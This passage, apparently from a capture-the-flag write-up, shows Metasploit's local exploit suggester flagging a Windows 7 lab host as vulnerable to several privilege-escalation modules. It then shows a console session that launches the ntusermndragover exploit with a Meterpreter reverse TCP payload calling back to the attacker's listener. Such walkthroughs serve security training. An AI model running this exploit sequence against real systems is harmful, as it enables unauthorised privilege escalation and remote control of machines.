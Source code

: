 ```c
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > 
```

Keep in mind that some of the results are ```false positive``` too

We have go through each one of these, until we gain access

```
msf6 exploit(windows/local/bypassuac_eventvwr) > use exploit/windows/local/ntusermndragover
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ntusermndragover) > show options 

Module options (exploit/windows/local/ntusermndragover):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  2                yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.116.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 x86


msf6 exploit(windows/local/ntusermndragover) > set session 2
session => 2
msf6 exploit(windows/local/ntusermndragover) > set LHOST 10.10.14.6
LHOST => 10.10.14.6
msf6 exploit(windows/local/ntusermndragover) > run

[*] Started reverse TCP handler on 10.10.14.6:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
```